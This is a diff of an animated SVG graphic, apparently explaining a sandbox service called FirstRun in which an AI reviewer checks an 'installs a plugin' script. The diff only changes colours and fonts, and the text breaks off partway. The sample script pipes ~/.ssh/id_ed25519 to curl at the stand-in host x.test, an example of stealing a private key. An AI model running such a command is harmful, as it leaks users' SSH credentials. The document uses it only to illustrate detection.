

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 1000 416" width="1000" height="416" role="img" aria-labelledby="t d">
  <style>.a0{opacity:0;animation:a0 21s linear infinite}@keyframes a0{0%,4.76%{opacity:0}5.95%,10.24%{opacity:1}11.43%,100%{opacity:0}}.a1{animation:a1 21s linear infinite}@keyframes a1{0%,11.43%{opacity:0;animation-timing-function:ease-out}13.1%,91.9%{opacity:1;}95.71%,100%{opacity:0;}}.a2{animation:a2 21s linear infinite}@keyframes a2{0%,58.1%{opacity:0;animation-timing-function:ease-out}59.76%,91.9%{opacity:1;}95.71%,100%{opacity:0;}}.a3{animation:a3 21s linear infinite}@keyframes a3{0%,1.9%{opacity:0;animation-timing-function:ease-out}3.57%,91.9%{opacity:1;}95.71%,100%{opacity:0;}}.a4{animation:a4 21s linear infinite}@keyframes a4{0%,15.24%{opacity:0;animation-timing-function:ease-out}16.9%,91.9%{opacity:1;}95.71%,100%{opacity:0;}}.a5{animation:a5 21s linear infinite}@keyframes a5{0%,21.9%{opacity:0;animation-timing-function:ease-out}23.57%,91.9%{opacity:1;}95.71%,100%{opacity:0;}}.a6{animation:a6 21s linear infinite}@keyframes a6{0%,25.71%{opacity:0;animation-timing-function:ease-out}27.38%,91.9%{opacity:1;}95.71%,100%{opacity:0;}}.a7{animation:a7 21s linear infinite}@keyframes a7{0%,33.33%{opacity:0;animation-timing-function:ease-out}35%,91.9%{opacity:1;}95.71%,100%{opacity:0;}}.a8{animation:a8 21s linear infinite}@keyframes a8{0%,39.05%{opacity:0;animation-timing-function:ease-out}40.71%,91.9%{opacity:1;}95.71%,100%{opacity:0;}}.a9{animation:a9 21s linear infinite}@keyframes a9{0%,45.71%{opacity:0;animation-timing-function:ease-out}47.38%,91.9%{opacity:1;}95.71%,100%{opacity:0;}}.a10{animation:a10 21s linear infinite}@keyframes a10{0%,59.05%{opacity:0;transform:translate(0px,5px);animation-timing-function:ease-out}60.71%,91.9%{opacity:1;transform:translate(0,0);}95.71%,100%{opacity:0;transform:translate(0,0);}}.a11{animation:a11 21s linear infinite}@keyframes a11{0%,63.81%{opacity:0;transform:translate(0px,5px);animation-timing-function:ease-out}65.48%,91.9%{opacity:1;transform:translate(0,0);}95.71%,100%{opacity:0;transform:translate(0,0);}}.a12{animation:a12 21s linear infinite}@keyframes a12{0%,68.57%{opacity:0;transform:translate(0px,5px);animation-timing-function:ease-out}70.24%,91.9%{opacity:1;transform:translate(0,0);}95.71%,100%{opacity:0;transform:translate(0,0);}}.a13{animation:a13 21s linear infinite}@keyframes a13{0%,73.33%{opacity:0;transform:translate(0px,8px);animation-timing-function:ease-out}75.24%,91.9%{opacity:1;transform:translate(0,0);}95.71%,100%{opacity:0;transform:translate(0,0);}}@media (prefers-reduced-motion:reduce){*{animation:none!important}}</style>
-   <rect x="0.5" y="0.5" width="999" height="415" rx="16" fill="#0f1216" stroke="#2a303a" stroke-width="1" />
-   <text x="24" y="36" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="12" font-weight="700" fill="#7d8795" letter-spacing="1.1">YOU WERE TOLD</text>
-   <text x="24" y="64" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="19" font-weight="600" fill="#e8ebf0">“installs a plugin”</text>
-   <text x="24" y="100" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="12" font-weight="700" fill="#7d8795" letter-spacing="1.1">THE COMMAND</text>
-   <rect x="24" y="110" width="492" height="158" rx="12" fill="#0b0e12" stroke="#2a303a" stroke-width="1" />
-   <rect x="30" y="118" width="480" height="28" rx="6" fill="#1a2440" class="a0" />
-   <rect x="30" y="150" width="480" height="28" rx="6" fill="#2f2410" stroke="#7a5a1c" stroke-width="1" class="a1" />
-   <rect x="30" y="182" width="480" height="58" rx="6" fill="#3a1716" stroke="#8a3a33" stroke-width="1" class="a2" />
-   <text x="44" y="141" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="13" fill="#7d8795">1</text>
-   <text x="66" y="141" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="14" fill="#e8ebf0">read -p "Continue? " a</text>
-   <text x="44" y="173" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="13" fill="#7d8795">2</text>
-   <text x="66" y="173" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="14" fill="#e8ebf0">[ "$a" = "y" ] || exit 0</text>
-   <text x="44" y="205" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="13" fill="#7d8795">3</text>
-   <text x="66" y="205" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="14" fill="#e8ebf0">cat ~/.ssh/id_ed25519 | curl -s -o /dev/null</text>
-   <text x="66" y="233" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="14" fill="#e8ebf0">  --data-binary @- https://x.test/k</text>
-   <text x="24" y="300" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" font-weight="600" fill="#e8ebf0">The command itself never changes.</text>
-   <text x="24" y="322" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="13.5" fill="#aab2be">The model only picks from a fixed menu. FirstRun supplies every value,</text>
-   <text x="24" y="342" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="13.5" fill="#aab2be">secrets are fake and made for this run, and the verdict comes only</text>
-   <text x="24" y="362" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="13.5" fill="#aab2be">from what is then observed.</text>
-   <text x="24" y="400" font-family="ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12" fill="#7d8795">Events from a real run: firstrun.makmurlab.com/r/S1HQPWT9Q6DR69PXXAHAE8JEE0</text>
+   <rect x="0.5" y="0.5" width="999" height="415" rx="0" fill="#f6f7f2" stroke="#161a17" stroke-width="1.5" />
+   <text x="24" y="36" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="12" font-weight="700" fill="#626c65" letter-spacing="1.1">YOU WERE TOLD</text>
+   <text x="24" y="64" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="19" font-weight="600" fill="#161a17">“installs a plugin”</text>
+   <text x="24" y="100" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="12" font-weight="700" fill="#626c65" letter-spacing="1.1">THE COMMAND</text>
+   <rect x="24" y="110" width="492" height="158" rx="0" fill="#eff1ea" stroke="#cdd3c9" stroke-width="1" />
+   <rect x="30" y="118" width="480" height="28" rx="0" fill="#e6ebfb" class="a0" />
+   <rect x="30" y="150" width="480" height="28" rx="0" fill="#fbf0d8" stroke="#e4c78a" stroke-width="1" class="a1" />
+   <rect x="30" y="182" width="480" height="58" rx="0" fill="#fbe7e3" stroke="#e8aea6" stroke-width="1" class="a2" />
+   <text x="44" y="141" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="13" fill="#626c65">1</text>
+   <text x="66" y="141" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="14" fill="#161a17">read -p "Continue? " a</text>
+   <text x="44" y="173" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="13" fill="#626c65">2</text>
+   <text x="66" y="173" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="14" fill="#161a17">[ "$a" = "y" ] || exit 0</text>
+   <text x="44" y="205" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="13" fill="#626c65">3</text>
+   <text x="66" y="205" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="14" fill="#161a17">cat ~/.ssh/id_ed25519 | curl -s -o /dev/null</text>
+   <text x="66" y="233" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="14" fill="#161a17">  --data-binary @- https://x.test/k</text>
+   <text x="24" y="300" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" font-weight="600" fill="#161a17">The command itself never changes.</text>
+   <text x="24" y="322" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="13.5" fill="#444d47">The model only picks from a fixed menu. FirstRun supplies every value,</text>
+   <text x="24" y="342" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="13.5" fill="#444d47">secrets are fake and made for this run, and the verdict comes only</text>
+   <text x="24" y="362" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="13.5" fill="#444d47">from what is then observed.</text>
+   <text x="24" y="400" font-family="&quot;IBM Plex Mono&quot;,ui-monospace,&quot;Cascadia Mono&quot;,&quot;SF Mono&quot;,Menlo,Consolas,&quot;DejaVu Sans Mono&quot;,monospace" font-size="12" fill="#626c65">Events from a real run: firstrun.makmurlab.com/r/S1HQPWT9Q6DR69PXXAHAE8JEE0</text>
  <g class="a3">
-     <rect x="536" y="20" width="440" height="92" rx="12" fill="#171b21" stroke="#2a303a" stroke-width="1" />
-     <circle cx="560" cy="44" r="12" fill="#80a4ff" />
-     <text x="560" y="49" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="13" font-weight="800" fill="#0f1216" text-anchor="middle">1</text>
-     <text x="582" y="49" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="15" font-weight="700" fill="#e8ebf0">First run: nobody answers the prompt</text>
+     <rect x="536" y="20" width="440" height="92" rx="0" fill="#fdfdfb" stroke="#cdd3c9" stroke-width="1" />
+     <circle cx="560" cy="44" r="12" fill="#1c3fcb" />
+     <text x="560" y="49" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="13" font-weight="800" fill="#f6f7f2" text-anchor="middle">1</text>
+     <text x="582" y="49" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="15" font-weight="700" fill="#161a17">First run: nobody answers the prompt</text>
  </g>
-   <text x="582" y="72" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" fill="#aab2be" class="a1">Stopped at line 2 with exit code 0.</text>
-   <text x="582" y="94" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" fill="#aab2be" class="a4">0 events recorded. Rules alone would see nothing.</text>
+   <text x="582" y="72" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" fill="#444d47" class="a1">Stopped at line 2 with exit code 0.</text>
+   <text x="582" y="94" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" fill="#444d47" class="a4">0 events recorded. Rules alone would see nothing.</text>
  <g class="a5">
-     <rect x="536" y="122" width="440" height="118" rx="12" fill="#171b21" stroke="#2a303a" stroke-width="1" />
-     <circle cx="560" cy="146" r="12" fill="#b79bff" />
-     <text x="560" y="151" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="13" font-weight="800" fill="#0f1216" text-anchor="middle">2</text>
-     <text x="582" y="151" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="15" font-weight="700" fill="#e8ebf0">The AI reviewer reads the code</text>
+     <rect x="536" y="122" width="440" height="118" rx="0" fill="#fdfdfb" stroke="#cdd3c9" stroke-width="1" />
+     <circle cx="560" cy="146" r="12" fill="#444d47" />
+     <text x="560" y="151" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="13" font-weight="800" fill="#f6f7f2" text-anchor="middle">2</text>
+     <text x="582" y="151" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="15" font-weight="700" fill="#161a17">The AI reviewer reads the code</text>
  </g>
-   <text x="582" y="174" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" fill="#aab2be" class="a6">Line 2 decides whether the rest runs, and the rest</text>
-   <text x="582" y="194" font-family="system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" fill="#aab2be" class="a6">was not recorded. So it asks for one more try.</text>
+   <text x="582" y="174" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" fill="#444d47" class="a6">Line 2 decides whether the rest runs, and the rest</text>
+   <text x="582" y="194" font-family="&quot;IBM Plex Sans&quot;,system-ui,-apple-system,&quot;Segoe UI&quot;,Roboto,&quot;Helvetica Neue&quot;,Arial,sans-serif" font-size="14" fill="#444d47" class="a6">was not recorded. So it asks for one more try.</text>
  <g class="a7">
